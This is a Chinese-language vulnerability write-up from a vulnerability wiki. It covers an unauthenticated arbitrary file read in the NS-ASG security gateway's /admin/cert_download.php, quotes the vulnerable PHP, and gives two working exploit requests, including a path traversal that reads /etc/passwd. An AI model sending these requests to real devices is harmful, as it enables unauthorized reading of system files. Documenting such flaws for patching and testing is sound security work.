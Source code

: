 ```yaml
---
title: 网康 NS-ASG安全网关 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 奇安信
---
```


# 网康 NS-ASG安全网关 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

> [!NOTE]
>
> 网康 NS-ASG安全网关 

## FOFA

> [!NOTE]
>
> 网康 NS-ASG安全网关

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?> 
```

此文件没有对身份进行校验即可下载任意文件

```
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```

![](/img/20210924013540458790.png)

```
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```

![](/img/20210924013540707515.png)